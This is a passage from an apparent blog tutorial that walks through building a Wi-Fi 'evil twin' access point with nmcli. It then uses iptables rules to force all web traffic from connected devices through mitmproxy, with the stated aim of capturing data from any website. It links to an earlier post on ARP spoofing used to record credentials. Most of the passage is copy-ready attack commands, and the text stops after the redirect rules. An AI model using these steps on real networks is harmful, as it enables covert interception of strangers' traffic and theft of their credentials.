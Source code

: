 Now that we have the access point covered, let's set up our evil twin. This evil twin is basically a deceptive computer that pretends to be a wireless access point. 

Make sure to disable any existing wireless (internal) adapter that might interfere with your evil twin and then run these commands to create an access point: 

```console
    waz@localhost:$ ifconfig wlan0 down
    waz@localhost:$ nmcli d
    waz@localhost:$ nmcli con add type wifi ifname wlan1 mode ap con-name MyHomeWiFI ssid WOSHubWiFi
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless.band bg
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless.channel 1
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless-security.key-mgmt wpa-psk
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless-security.proto rsn
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless-security.group ccmp
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless-security.pairwise ccmp
    waz@localhost:$ nmcli con modify MyHomeWiFI 802-11-wireless-security.psk MaxPass21
    waz@localhost:$ nmcli con modify MyHomeWiFI ipv4.method shared
    waz@localhost:$ nmcli con up MyHomeWiFI
```

The network interface that I want to disable is called wlan0 in my example above but you should verify first what the name is on your system by running the command "ifconfig". You should also do the same for wlan1 since I don't know what name it will have on your system. 

At this point you should be able to connect to the internet via this newly created access point that should appear under the name "WOSHubWiFi". 

## Networking

Now that your target machine thinks it's connected to a router let's install another key component to the server acting as an access point: mitmproxy. "Mitm" stands for man in the middle and is an attack that we already covered previously [here](https://chirpy.thekor.eu/posts/man-in-the-middle-attack/). If I had to quickly summarize this previous article I would say I used ARP spoofing to serve my own website that would record credentials. What we'll do here today is in the same vein but it goes a step further by being able to capture data from any website without having to create a fake login page. 
After installing mitmproxy let's now redirect all the traffic going through our evil access point to our mitmproxy by creating the following ip tables rules:

```console
    waz@localhost:$ sysctl -w net.ipv4.ip_forward=1
    waz@localhost:$ iptables -F
    waz@localhost:$ iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    waz@localhost:$ iptables -A INPUT -p tcp --dport 80 -j ACCEPT
    waz@localhost:$ iptables -A INPUT -p tcp --dport 443 -j ACCEPT
    waz@localhost:$ iptables -t nat -A OUTPUT -p tcp --dport 80 -j REDIRECT --to-port 8080
    waz@localhost:$ iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDIRECT --to-port 8080
    waz@localhost:$ iptables -t nat -A PREROUTING -i wlxd03745917ba3 -p tcp --dport 80 -j REDIRECT --to-port 8080
    waz@localhost:$ iptables -t nat -A PREROUTING -i wlxd03745917ba3 -p tcp --dport 443 -j REDIRECT --to-port 8080
```
